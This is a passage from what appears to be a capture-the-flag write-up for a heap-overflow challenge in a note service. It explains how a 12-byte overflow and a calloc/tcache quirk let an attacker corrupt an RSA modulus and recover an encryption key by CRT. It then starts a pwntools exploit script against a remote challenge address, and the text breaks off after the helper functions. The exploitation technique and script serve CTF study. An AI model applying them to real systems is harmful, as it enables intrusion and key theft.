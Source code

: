#### Vulnerability
* Heap overflow
There is a heap overflow of 12 bytes when adding a note of AES with length multiple of 16. However, the length and content couldn't be controlled.

#### Thought proccess
* The heap overlay is as follows:

```
+-------------+
| flag1 & key |
|-------------|
|             |
|    a big    |
|   unsorted  |
|    chunk    |
|             |
+-------------+
|      N      |
+-------------+

```
* If we just trigger the overflow right away, the proccess will crash on the next allocation since the unsorted bin's `size` and `fd` are corrupted.
* The idea is to exhaust the `unsorted bin` and overflow the `N`. By doing this we could get `pow(key, 217, N)` on multiple `N`s and therefore use CRT to get the `key`.
* However, the trouble is that we could only `malloc` a limited amount of notes, and they are not enough to exhaust the `unsorted bin`.
* After several hours of trying, we discovered that `calloc` actually **DOES NOT** allocate from `tcache`, but freeing a calloced chunk put it in `tcache`! Wuuuuuuut!?
* Therefore, we can use `show note` to exhaust the `unsorted bin`, overflow the `N`, print the encrypted `key`, do this several times, run CRT on them, and get the `key`.
* After getting the `key`, just print the `flag1` and decrypt it :)

#### Code
* Overflow N

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
from tqdm import trange
import pickle

f = open('pickle', 'wb')
a = []
for N in range(100):
    r = remote('52.194.203.194', 21700)

    def add(idx, typ, sz, data):
        r.sendlineafter('exit', '1')
        r.sendlineafter('index:', str(idx))
        r.sendlineafter('type:', str(typ))
        r.sendlineafter('size:', str(sz))
        r.sendafter('Note:', data)

    def show(idx):
        r.sendlineafter('exit', '2')
        r.sendlineafter('index:', str(idx))
        return r.recvline()

    def delete(idx):
        r.sendlineafter('exit', '3')
        r.sendlineafter('index:', str(idx))
```